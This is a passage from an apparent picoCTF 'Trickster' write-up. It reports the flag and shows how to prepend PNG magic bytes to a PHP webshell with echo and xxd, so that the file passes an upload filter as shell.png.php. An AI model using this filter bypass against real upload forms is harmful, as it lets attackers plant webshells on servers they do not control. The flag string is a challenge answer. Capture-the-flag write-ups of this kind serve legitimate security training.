 And we found the flag inside the `G4ZTCOJYMJSDS.txt` file
```
/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9} */
```

Fun challenge. But one thing before moving on to the next one, how can i append the PNG magic bytes to a file using just `echo`?

So i figured it out.

First we need the magic bytes for PNG:
```
89 50 4E 47 0D 0A 1A 0A
```

Next we need a way to take these hexadecimal values and convert them into ASCII. 

For that we'll use this command

```console
┌──(kali㉿kali)-[~/Pictures]
└─$ echo -n 89504e470d0a1a0a | xxd -r -p
�PNG
▒
             
```
In the first we are echoing the magic bytes and piping them into `xxd`. `-n` tells `echo` not to append a new line automatically. In the second part `xxd` takes the magic bytes, converts them from hexa to ASCII thanks to `-r` and prints them in a simple format thanks to `-p`.

Now I'll append the php webshell to this and we'll have a ready webshell.

I wanted to do all of this in one command

```console
{echo -n 89504e470d0a1a0a | xxd -r -p; cat shell.php } > shell.png.php
```

`{...}` are used to group the commands and unite their `stdout` so it can be easily redirected to a file `shell.png.php`.
![](assets/ctf_trickster_oneliner_webshell.png)